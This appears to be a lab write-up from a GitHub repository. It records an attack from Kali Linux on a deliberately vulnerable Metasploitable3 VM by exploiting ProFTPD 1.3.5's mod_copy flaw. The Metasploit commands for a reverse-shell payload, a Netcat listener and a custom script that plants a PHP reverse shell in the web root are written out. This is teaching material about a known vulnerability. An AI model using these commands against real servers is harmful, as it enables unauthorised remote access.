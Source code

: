 
## 🔍 Step 1: Finding the IP Address of Metasploitable3

We used the `ifconfig` command inside the Metasploitable3 VM to find its IP address on the NAT network.

- **Discovered IP Address:** `10.0.2.7`

![Metasploitable3 IP Address](Screenshots/A-FindIP-Metasplot.png)


### 🔁 Step 2: Verifying Network Connectivity

Before launching any attacks, we verified that the attacker machine (Kali Linux) can reach the victim machine (Metasploitable3) using the `ping` command.

- **Target IP:** `10.0.2.7`
- **Result:** Successful ping with 0% packet loss



![Ping Test from Kali to Metasploitable](Screenshots/B-Connect.png)
### 🔎 Step 3: Scanning for Open Ports and Services

To discover vulnerable services running on the victim machine, we performed a full version scan using `nmap`:
![Metasploitable3 IP Address](Screenshots/C-FindPorts.png)


 ## 📍 Step 4: Exploiting ProFTPD 1.3.5 via `proftpd_modcopy_exec`

In this step, we exploit the vulnerable **ProFTPD 1.3.5** service running on Metasploitable3 using the `unix/ftp/proftpd_modcopy_exec` module in Metasploit. The goal is to get a **reverse shell** back to our Kali machine.

---
![Metasploitable3 IP Address](Screenshots/D-msfconsole.png)
### ✅ Summary of the Process

- **Target (Metasploitable3) IP:** `10.0.2.7`  
- **Attacker (Kali) IP:** `10.0.2.5`  
- **Vulnerable Service:** ProFTPD 1.3.5  
- **Exploit Module:** `exploit/unix/ftp/proftpd_modcopy_exec`  
- **Payload Used:** `cmd/unix/reverse_python`  
- **Writable Web Directory:** `/var/www/html`

---

### 🧰 Commands Used

```bash
# Start Metasploit
msfconsole

# Search and load the exploit module
search proftpd 1.3.5
use exploit/unix/ftp/proftpd_modcopy_exec

# Set RHOST and LHOST
set RHOST 10.0.2.7
set LHOST 10.0.2.5

# View available payloads and select one
show payloads
set payload cmd/unix/reverse_python

# Set the writable directory on the target
set SITEPATH /var/www/html

# (Optional) Prevent cleanup and handler issues
set AllowNoCleanup true
set DisablePayloadHandler true

# Run the exploit

exploit
```
## ✅ Step 5: Establishing a Reverse Shell to the Victim (End of Phase 1.1)






After successfully uploading the malicious PHP payload using the `mod_copy` exploit module in Metasploit, we triggered the payload by accessing it through the victim’s web server. This caused the victim (Metasploitable3) to connect back to our Kali machine, confirming a successful reverse shell.

![Metasploitable3 IP Address](Screenshots/E-VictimShell.png)
### 🔊 Listener Setup (Attacker Side)



On Kali, we opened a Netcat listener on port `4444`:

```bash
nc -lvnp 4444
## 🔹 Task 1.2 – Running the Custom Exploit Script

After manually exploiting the FTP service in Task 1.1 using Metasploit, we now move to automating the attack using a custom Python script.

### ▶️ Step: Executing the Custom Exploit Script

We ran the following command from the `/Downloads` directory:

```bash
python3 Script.py
```
![Metasploitable3 IP Address](Screenshots/F-RunningScript.png)
 What the Script Does
The script automates the exploitation of the vulnerable ProFTPD 1.3.5 service using the mod_copy module. Here's what it performs:

Generates a PHP reverse shell payload.

Exploits the FTP server to copy this payload into the Apache web root directory (/var/www/html/).

Provides a direct URL to the uploaded exploit:


### 📸 Custom Payload Execution via mod_copy (Script Proof )

After uploading the `exploit.php` file using the custom script, we leveraged the `mod_copy` vulnerability to manually **execute a command on the victim machine** by setting the `CMD` option in Metasploit.

We ran the following command to list the contents of the web root directory:

```bash
set CMD ls -l /var/www/html
run
```
![Metasploitable3 IP Address](Screenshots/G-uploadingFile.png)


